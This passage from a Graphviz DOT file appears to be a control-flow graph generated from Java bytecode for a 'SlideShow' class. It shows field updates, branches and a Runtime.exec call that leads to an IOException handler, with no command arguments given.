    "iflt load.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
